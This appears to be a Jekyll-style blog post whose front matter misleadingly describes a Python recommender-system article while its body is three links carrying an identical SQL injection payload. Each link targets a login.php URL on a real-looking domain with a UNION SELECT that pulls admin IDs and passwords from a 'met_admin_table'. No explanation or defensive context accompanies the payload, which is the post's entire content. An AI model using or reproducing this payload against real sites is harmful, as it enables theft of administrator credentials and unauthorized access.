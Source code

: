 ```yaml
---
layout: post
title: A simple security test, will be deleted
categories: [machine learning, python]
tags: [python, recommender system, sparse matrix]
description: In this article ... we make a simple test
comments: true
---
```


This is a simple test, you know:
<a href="https://datadome.co/member/login.php/aa'UNION%20SELECT%20(select%20concat(admin_id,0x23,admin_pass)%20from%20met_admin_table%20limit%201),2,3,4,5,6,1711,8,9,13,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa">Test 1</a>
<a href="https://datadome.co/member/login.php/aa'UNION%20SELECT%20(select%20concat(admin_id,0x23,admin_pass)%20from%20met_admin_table%20limit%201),2,3,4,5,6,1711,8,9,13,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa">Test 2</a>
<a href="https://datadome.co/member/login.php/aa'UNION%20SELECT%20(select%20concat(admin_id,0x23,admin_pass)%20from%20met_admin_table%20limit%201),2,3,4,5,6,1711,8,9,13,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa">Test 3</a>


